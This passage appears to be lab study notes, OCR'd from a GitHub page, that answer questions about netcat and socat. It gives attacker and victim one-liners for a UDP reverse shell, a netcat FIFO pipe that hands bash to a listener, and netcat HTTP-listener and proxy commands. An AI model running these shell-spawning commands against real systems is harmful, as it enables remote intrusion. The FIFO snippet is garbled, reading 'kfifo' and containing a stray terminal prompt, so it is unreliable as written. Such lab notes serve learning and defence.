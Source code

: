 # 
## Security Questions
1. explain how to run the same connection via udp
    **socat**
    Attacker ```socat file:`tty`,raw,echo=0 UDP-L:8080```
    Victim ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane udp:localhost:8080```
    **netcat**
    Attacker ```nc -l -v -p 8080 -u```
    Victim 
```python
    kfifo fifo                                                 INT ✘  4s  root@hlkali 
    nc.traditional -u localhost 8080 < fifo |
    {
    echo "Hi"
    bash
    } > fifo
```
2. is it possible to run a http end-point with netcat?
```nc -l -v -p 80```

3. is it possible to proxify netcat traffic? 
Netcat as Proxy: nc -l -p 1221 < fifo | tee /dev/tty | nc localhost 1220 | tee fifo

Netcat proxy option: [Netcat](https://nmap.org/ncat/guide/ncat-proxy.html)

```ncat --proxy <proxyhost>[:<proxyport>] --proxy-type  { http  |   socks4  |   socks5 } <host> [<port>]```
